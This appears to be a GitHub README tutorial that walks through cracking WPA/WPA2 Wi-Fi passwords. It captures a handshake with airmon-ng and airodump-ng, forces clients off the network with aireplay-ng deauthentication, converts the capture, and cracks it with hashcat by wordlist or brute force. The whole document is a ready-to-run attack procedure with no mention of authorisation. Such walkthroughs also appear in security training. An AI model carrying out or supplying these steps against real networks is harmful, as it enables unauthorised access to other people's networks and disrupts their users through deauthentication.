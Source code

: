 ## Crack WIFI Password (WPA/WPA2) using Aircrack-ng

Prerequirments :

- Aircrack-ng : `sudo apt install aircrack-ng`

### Lets capture the flag (I mean \*Handshake):

Open terminal.....

#### Terminal-1:

1. Detect your wireless network interface :

   > ifconfig

   ![Network interface](images/interfaces.png)

   **Note:** Here <i>wlp3s0</i> is my wireless interface.

   **if coudn't find command then try :**

   > /sbin/ifconfig

2. Start monitor mode :

   > sudo airmon-ng start wlp3s0

   ![Monitor mode](images/monitor_mode.png)

3. capture traffic :

   > sudo airodump-ng wlp3s0mon

   ![Monitoring](images/monitoring.png)

#### Terminal-2:

4. select target and focus on one AP on channel:

   > sudo airodump-ng --bssid xx.xx.xx.xx.xx.xx -c y --write filename wlp3s0mon

   - **xx.xx.xx.xx.xx.xx** defines : **AP BSSID** -> 00.11.22.33.44.55 (suppose)
   - **y** defines : **AP channel** -> 10 (suppose)
   - **filename** is the file name where the **handshake** will captute and make some other stuffs .

   ![Target Monitoring](images/target.png)

#### Terminal-3:

5. Send traffic to the channel :

   > sudo aireplay-ng --deauth y -a xx.xx.xx.xx.xx.xx wlp3s0mon

   - ammoun of **traffic**-> y

   ![Deauth](images/deauth.png)

6. Capture handshake : it will be shown in the monitor if captured ! at **Terminal-2**.

   ![Captured handshake](images/handshake_captured.png)

7. Now you got the handshake **(terminal-2)**
8. Stop the process of terminal-2 : `ctrl+c`

### Now Lets crack the password !

**There will be a WPAcrack-01.cap file in your home directory**

1. convert cap file into hccapx file : https://www.onlinehashcrack.com/tools-cap-to-hccapx-converter.php

or

1.  use **cap2hccapx.c** file to convert the **cap** file to **hccapx** file

    > gcc cap2hccapx.c -o cap2hccapx && ./cap2hccapx file.cap file.hccapx

    ![cap to hcappx](images/capToHccapx.png)

    **Note :** cap to pkid (in case of pkid) :

    > hcxpcaptool -z pmkidhash suva-01.cap

1.  Crack password using **hashcat** :

    - **Install hashcat :** `sudo apt install hashcat`
    - check is everything oky ? : `hashcat -I` **to use hashcat you need gpu**
    - crack password :

      > hashcat -m 2500 wpacrack.hccapx dictionary.txt

      - dictionary.txt -> word list (suppose)
      - wpacrack.hccapx is the handshake file

      ![Hashcat running](images/hashcat.png)

      ![Hashcat Status](images/hashcat_status.png)

- Bruteforce :
  Example (bruteforce for length 8 password using 0-9 digits) :

  > hashcat -a 3 -m 16800 pmkidhash ?d?d?d?d?d?d?d?d

  Then you will get the password (if you are lucky enough).
  ![password](images/pass.png)
  here password : secret

- Others :
  All ready cracked pass check :

  > hashcat -m 2500 test.hccapx rockyou.txt --show
